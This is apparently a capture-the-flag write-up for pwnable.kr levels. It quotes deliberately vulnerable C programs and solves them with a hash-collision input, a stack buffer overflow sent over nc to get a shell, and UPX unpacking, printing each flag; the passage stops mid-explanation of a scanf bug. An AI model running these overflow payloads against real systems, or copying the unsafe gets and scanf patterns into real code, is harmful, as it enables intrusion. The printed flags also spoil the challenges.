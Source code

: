 # fd

`fd.c`:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

Pass in 0x1234 (4660) as input so that fd = 0 (so the program reads from STDIN). Then type "LETMEWIN", press enter, and get the flag.

flag: `mommy! I think I know what a file descriptor is!!`

# col

`col.c`:
```
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
```

We have to input a string that's 20 bytes, then the check_password function takes every 4 bytes as an int (the function takes the char pointer to our input and casts it to a int pointer and because ints are 4 bytes in c when we dereference the pointer we are getting 4 bytes of our string as opposed to just one if we have a char pointer) and adds all of the ints up and if it equals 0x21DD09EC we get the flag. We can't use \x00 or null bytes because then strlen will calculate our string input wrong cause null bytes will make our string appear "terminated". 

Running the following command will get us the flag: ``./col `python -c 'print "\xe8\x05\xd9\x1d"+"\x01"*16'``

flag: `daddy! I just managed to create a hash collision :)`

# bof

`bof.c`:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Classic buffer overflow question. In the assembly we see that `$ebp-0x2c` is set for the buffer, and it checks if `$ebp + 0x8 == 0xcafebabe`. So we input 52 A's, then 0xcafebabe (in little endian, so "backwards"). 

We accomplish this with the following payload: `python -c "print 'A'*52+'\xbe\xba\xfe\xca'"`. However, it seems the program checks for stack smashing, so what we need to do is keep STDIN open once we get our shell, cause the program only checks for stack smashing at the end of the `func` function. Because of this, we modify our payload: `(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat)`. 

We now run `(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000`, see that we do indeed have a shell, then run `ls`, see the flag file, and then run `cat flag` to get our flag.

flag: `daddy, I just pwned a buFFer :)`

# flag

This is a reversing question, so we're not given a c file, just the binary. If we try to load the binary in IDA, we see that many of the functions were unable to decompiled, and in GDB we can't seem to find the `main` function. Running `strings` on the binary file reveals that it was packed with [UPX](https://upx.github.io/). So we download UPX and unpack the file, getting a new binary. Now if we load this new binary into IDA, we see that everything decompiled successfully. If we look at the assembly of the `main` function, we see a variable called `flag`. We double click it and it reveals a string that looks like our answer.

flag: `UPX...? sounds like a delivery service :)`

# passcode

`passcode.c`:
```
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

The vulnerability in this question lies with the `scanf` where the program reads in `passcode1` and `passcode2`. You're supposed to pass in an address of a variable as the 2nd parameter, but the actual variable is passed in instead.


